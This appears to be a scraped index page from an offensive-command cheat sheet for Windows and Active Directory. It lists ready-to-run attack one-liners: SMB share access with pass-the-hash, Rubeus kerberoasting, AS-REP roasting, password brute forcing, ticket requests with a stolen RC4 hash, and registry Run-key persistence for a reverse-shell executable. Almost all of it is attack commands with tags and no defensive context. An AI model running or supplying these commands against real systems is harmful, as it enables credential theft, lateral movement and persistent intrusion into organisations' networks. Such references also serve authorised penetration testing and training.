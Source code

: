 [smbclient -L \\10.10.10.1 -U test.local/john --pw-nt-hash XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX](https://wadcoms.github.io/wadcoms/SMBClient-List-Share-PTH/)
-   [Enumeration](https://wadcoms.github.io/wadcoms/SMBClient-List-Share-PTH/#Enumeration)
 -   [Username](https://wadcoms.github.io/wadcoms/SMBClient-List-Share-PTH/#Username)
 -   [Hash](https://wadcoms.github.io/wadcoms/SMBClient-List-Share-PTH/#Hash)
 -   [SMB](https://wadcoms.github.io/wadcoms/SMBClient-List-Share-PTH/#SMB)
 -   [Linux](https://wadcoms.github.io/wadcoms/SMBClient-List-Share-PTH/#Linux)

[smbclient \\\\test.local\\C$ -I 10.10.10.1 -U john password123](https://wadcoms.github.io/wadcoms/SMBClient-Enum-Share/)
-   [Enumeration](https://wadcoms.github.io/wadcoms/SMBClient-Enum-Share/#Enumeration)
 -   [Username](https://wadcoms.github.io/wadcoms/SMBClient-Enum-Share/#Username)
 -   [Password](https://wadcoms.github.io/wadcoms/SMBClient-Enum-Share/#Password)
 -   [SMB](https://wadcoms.github.io/wadcoms/SMBClient-Enum-Share/#SMB)
 -   [Linux](https://wadcoms.github.io/wadcoms/SMBClient-Enum-Share/#Linux)

[smbclient \\\\test.local\\public -I 10.10.10.1 -N](https://wadcoms.github.io/wadcoms/SMBClient-Enum-Share-Anonymous/)
-   [Enumeration](https://wadcoms.github.io/wadcoms/SMBClient-Enum-Share-Anonymous/#Enumeration)
 -   [No Creds](https://wadcoms.github.io/wadcoms/SMBClient-Enum-Share-Anonymous/#No_Creds)
 -   [SMB](https://wadcoms.github.io/wadcoms/SMBClient-Enum-Share-Anonymous/#SMB)
 -   [Linux](https://wadcoms.github.io/wadcoms/SMBClient-Enum-Share-Anonymous/#Linux)

[Rubeus.exe kerberoast /outfile:hashes.txt](https://wadcoms.github.io/wadcoms/Rubeus-Kerberoast/)
-   [Exploitation](https://wadcoms.github.io/wadcoms/Rubeus-Kerberoast/#Exploitation)
 -   [Privilege Escalation](https://wadcoms.github.io/wadcoms/Rubeus-Kerberoast/#PrivEsc)
 -   [Shell](https://wadcoms.github.io/wadcoms/Rubeus-Kerberoast/#Shell)
 -   [Kerberos](https://wadcoms.github.io/wadcoms/Rubeus-Kerberoast/#Kerberos)
 -   [Windows](https://wadcoms.github.io/wadcoms/Rubeus-Kerberoast/#Windows)

[Rubeus.exe /users:usernames.txt /passwords:passwords.txt /domain:test.local /outfile:found_passwords.txt](https://wadcoms.github.io/wadcoms/Rubeus-Brute/)
-   [Enumeration](https://wadcoms.github.io/wadcoms/Rubeus-Brute/#Enumeration)
 -   [No Creds](https://wadcoms.github.io/wadcoms/Rubeus-Brute/#No_Creds)
 -   [Kerberos](https://wadcoms.github.io/wadcoms/Rubeus-Brute/#Kerberos)
 -   [Windows](https://wadcoms.github.io/wadcoms/Rubeus-Brute/#Windows)

[Rubeus.exe asktgt /domain:test.local /user:john /rc4:2a3de7fe356ee524cc9f3d579f2e0aa7 /ptt](https://wadcoms.github.io/wadcoms/Rubeus-AskTGT/)
-   [Exploitation](https://wadcoms.github.io/wadcoms/Rubeus-AskTGT/#Exploitation)
 -   [Username](https://wadcoms.github.io/wadcoms/Rubeus-AskTGT/#Username)
 -   [Hash](https://wadcoms.github.io/wadcoms/Rubeus-AskTGT/#Hash)
 -   [Kerberos](https://wadcoms.github.io/wadcoms/Rubeus-AskTGT/#Kerberos)
 -   [Windows](https://wadcoms.github.io/wadcoms/Rubeus-AskTGT/#Windows)

[Rubeus.exe asreproast /format:hashcat /outfile:hashes.txt](https://wadcoms.github.io/wadcoms/Rubeus-ASREPRoast/)
-   [Exploitation](https://wadcoms.github.io/wadcoms/Rubeus-ASREPRoast/#Exploitation)
 -   [Privilege Escalation](https://wadcoms.github.io/wadcoms/Rubeus-ASREPRoast/#PrivEsc)
 -   [Shell](https://wadcoms.github.io/wadcoms/Rubeus-ASREPRoast/#Shell)
 -   [Kerberos](https://wadcoms.github.io/wadcoms/Rubeus-ASREPRoast/#Kerberos)
 -   [Windows](https://wadcoms.github.io/wadcoms/Rubeus-ASREPRoast/#Windows)

[reg.exe add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run" /v Persistence /t REG_SZ /d "C:\Path\To\revshell.exe" reg.exe add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" /v Persistence /t REG_SZ /d "C:\Path\To\revshell.exe"](https://wadcoms.github.io/wadcoms/Regexe-Persistence/)
-   [Persistence](https://wadcoms.github.io/wadcoms/Regexe-Persistence/#Persistence)
 -   [Shell](https://wadcoms.github.io/wadcoms/Regexe-Persistence/#Shell)
 -   [Windows](https://wadcoms.github.io/wadcoms/Regexe-Persistence/#Windows)
